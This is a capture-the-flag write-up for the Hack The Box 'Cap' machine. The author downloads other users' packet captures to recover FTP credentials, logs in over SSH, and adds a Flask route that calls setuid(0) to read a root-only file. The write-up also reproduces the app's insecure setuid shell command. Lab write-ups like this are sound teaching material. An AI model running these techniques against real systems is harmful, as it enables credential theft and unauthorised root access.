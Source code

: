 # 📦 HTB - Cap


> Simple easy box, perfect to warmup before the FIC 2021 and get more confidence in 1337 h4ck1n9

## TL;DR

Find PCAP file on server, get SSH credentials, execute code as root with Python.

## Footholds

I did not even use `nmap` here, as we had a web server serving on port `tcp:80`. This website looked like this:

![Cap index](index.png)

It seems to be a security dashboard for a server, we don't have any info about that. We have multiple endpoints on the server :

* `/capture`: redirects to `/data/{id}` after loading
* `/data/{id}`: we can download `{id}.pcap` by clicking a button
* `/ip`: get a `netstat` output

What can we do with that?

## User

I got to download the file `11.pcap`, and got nothing in it. I recognized that all my interactions with the server were logged in this PCAP, which is odd, I tought the server was serving a particular PCAP.

After playing again with the `/capture` endpoint, I figured out that the `/data/{id}` correspond to a specific user or IP. So I checked `/data/0` and got the following data:

![0.pcap](pcap.png)

And guess what? Yes we can see credentials in cleartext here:

![FTP connection in 0.pcap](ftp.png)

So we can SSH to the machine with those.

## Root

### Source code

The server was running in `/var/www/html/app.py` which is a Flask server. the user `nathan` have `rw` rights on it so I checked the source code:

```py
import os
from flask import *
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
import tempfile
import dpkt
from werkzeug.utils import append_slash_redirect

# [...]

app = Flask(__name__)

@app.route("/")
def index():
        return render_template("index.html")

@app.route("/capture")
@limiter.limit("10 per minute")
def capture():
        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)

        return redirect("/data/" + str(pcapid))

@app.route("/ip")
def ifconfig():
	d = os.popen("ifconfig").read().strip()
	print(d)
	return render_template("index.html", rawtext=d)

@app.route("/data/<id>")
def data_id(id):
        try:
                id = int(id)
        except:
                return redirect("/")
        try:
                data = process_pcap(os.path.join(app.root_path, "upload", str(id) + ".pcap"))
                path = str(id) + ".pcap"
                return render_template("index.html", data=data, path=path)
        except Exception as e:
                print(e)
                return redirect("/")

# [...]

if __name__ == "__main__":
        app.run("0.0.0.0", 80, debug=True)
```

I removed some code for readability but you get the idea. The important stuff is the `os.setuid(0)` part. If you want the complete code, [check it here](app.py).

### Exploit

As you can expect here we can execute code as root with the `os.setuid(0)` line. So I just edited this `app.py` file and added one route:

```py
@app.route("/test")
def test():
    os.setuid(0)
    data = os.popen("cat /root/root.txt").read()
    return render_template("index.html", data=data)

# opened a new port on the machine
if __name__ == "__main__":
    app.run("0.0.0.0", 65000, debug=True)
```

Then I started the server in the SSH connection: `nathan@cap: python3 app.py`, and connected on the server on my local machine with `firefox http://cap.htb:65000/test`.

![RCE as root](root.png)

And voilà.

![Cap rooted](rooted.png)


